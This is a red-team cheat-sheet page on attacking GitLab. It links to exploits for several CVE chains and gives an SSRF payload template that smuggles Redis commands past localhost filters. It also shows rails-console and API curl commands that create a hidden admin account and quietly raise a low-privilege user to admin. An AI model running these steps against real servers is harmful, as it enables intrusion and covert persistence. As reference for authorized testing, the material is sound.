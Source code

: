 # GitLab

* [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
* [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

* [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
* [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
* [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

* [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
* [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

* [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => snovvcrash, :email => snovvcrash@megacorp.local)
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```

